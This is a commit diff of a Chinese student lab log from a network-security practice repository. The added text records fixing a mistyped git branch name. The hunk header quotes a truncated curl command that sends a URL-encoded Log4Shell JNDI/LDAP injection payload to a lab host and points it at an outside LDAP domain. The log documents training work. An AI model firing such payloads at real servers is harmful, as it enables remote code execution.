

Before and after one commit to lihan3238/Network-Security-Comprehensive-Practice, a Markdown page: 1_DaleChu/个人开发日志.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs(1_Dalechu/个人开发日志.md):补充 7 月 9 日的工作日志

```diff
--- a/1_DaleChu/个人开发日志.md
+++ b/1_DaleChu/个人开发日志.md
@@ -165,6 +165,10 @@ curl "http://192.168.5.132:50721/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F95p55c.
 
 - [lihan3238 的实验日志](https://github.com/lihan3238/Network-Security-Comprehensive-Practice/blob/main/0_lihan3238/%E4%B8%AA%E4%BA%BA%E5%BC%80%E5%8F%91%E6%97%A5%E5%BF%97.md)
 
+
+### 备注
+提交到远程仓库时不小心将 `dalechu` 打成了 `Dalechu`, 相当于新建了一个分支, 并且合并到了 `main` 分支上. 现处理如下 : 对 `Dalechu` 分支进行 git rebase, 同步其内容, 删除 `dalechu` 分支. 经过认真检查, 主分支没有被破坏, 特此记录, 下次引以为戒 !
+
 ---
 
 
```
